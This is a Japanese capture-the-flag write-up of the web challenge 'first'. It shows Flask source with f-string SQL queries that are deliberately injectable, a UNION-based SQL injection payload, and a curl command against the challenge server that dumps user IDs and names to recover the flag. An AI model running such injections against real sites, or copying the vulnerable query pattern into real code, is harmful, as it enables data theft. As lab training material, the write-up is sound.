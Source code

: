 # first:web:469pts
運営している小さな掲示板が100ユーザを達成しました 🎉  
そこで、メンテ明けの12/6に**100番目ちょうどの登録をしたユーザをトップページで掲載したい**ので、ユーザ名を `taskctf{ユーザ名}` で教えてください！  

[http://34.82.208.2:31555/](http://34.82.208.2:31555/)  

[files.zip](files.zip)  

Hint  
・ユーザ情報を取得するためには、どのようなSQLを実行すれば良いでしょうか？ ・各ユーザ情報を時系列で並べることはできないでしょうか？  

# Solution
URLとソースが渡される。  
アクセスすると、ユーザの投稿を検索できるサイトのようだ。  
![site1.png](site/site1.png)  
`http://34.82.208.2:31555/?q=検索ワード`で検索できるようである。  
ソースを見ると以下のようであった。  
```python
~~~
# NOTE: This handler is not unavailable
# @app.route("/register", methods=["POST"])
# def register_post():
#     data = request.json
#     c = sqlite3.connect(db_name)
#     c.execute(f"INSERT INTO users (name, id) VALUES ({data['name']}, {str(uuid7())})")
#     c.commit()
#     c.close()

class Index_get_response:
    def __init__(self, response_from_db: tuple) -> None:
        if response_from_db is None or len(response_from_db) != 3:
            raise TypeError('response_from_db must be tuple whose size is 3.')
        id, user_name, body = response_from_db
        if type(id) != int or type(user_name) != str or type(body) != str:
            raise TypeError('response_from_db must be (int, str, str) tuple.')
        self.id = id
        self.user_name = user_name
        self.body = body

@app.route("/", methods=["GET"])
def index_get():
    q = ''
    if request.args.get('q') is not None:
        q = request.args.get('q')
    
    results = None
    c = sqlite3.connect(db_name)
    try:
        cur = c.cursor()
        cur.execute(f"SELECT posts.id, users.name, posts.body FROM posts INNER JOIN users ON posts.user_name = users.name AND posts.body LIKE \'%{q}%\'")
        results = cur.fetchall()
    except Exception as e:
        traceback.print_exc()
        return f'error: {e}', 500
    finally:
        c.close()

    results_resp = [Index_get_response(result) for result in results]
    return render_template('index.html', results=results_resp)
~~~
```
LIKE句に自明なSQLiがあることがわかる。  
また、`/register`が昔は存在したようで、nameと一意のidよりユーザをINSERTしている。  
ただidが`uuid7()`なので100番目がわからない。  
ひとまずSQLiを使いユーザのidを表示してやる。  
`%' UNION SELECT 1, id, name FROM users; -- satoki`を投げ込んでやればよい。  
![site2.png](site/site2.png)  
idの先頭が共通し、異なっている個所は16進数で増加していることに気づく。  
どうやらUUIDv6,7,8ではタイムスタンプでソートできるようになっている[らしい](https://kakakakakku.hatenablog.com/entry/2022/10/31/082041)。  
`uuid7()`はUnix Timeベースであり、手元で試しても生成した順になる。  
```bash
$ python
~~~
>>> from uuid6 import uuid7
>>> uuid7()
UUID('0184d6da-248d-7ed3-986e-8d5b368499df')
>>> uuid7()
UUID('0184d6da-28bc-7bb6-b031-266b181c166d')
>>> uuid7()
UUID('0184d6da-2ca7-785b-afdd-f82e76a2c245')
>>> uuid7()
UUID('0184d6da-303e-759e-b731-881559c08e5d')
```
つまり100番目のuuidのユーザ名を答えればよい。  
site.htmlに保存し、検索すればよい(card-textにユーザ名が入っていることに注意)。  
```bash
$ curl -s 'http://34.82.208.2:31555/?q=%25%27+UNION+SELECT+1%2C+id%2C+name+FROM+users%3B+--+satoki' > site.html
$ grep card-text site.html | head -100 | tail -1
                  <p class="card-text">Satomi_Kato</p>
```
得られたユーザ名を指定された形式にするとflagとなった。  

## taskctf{Satomi_Kato}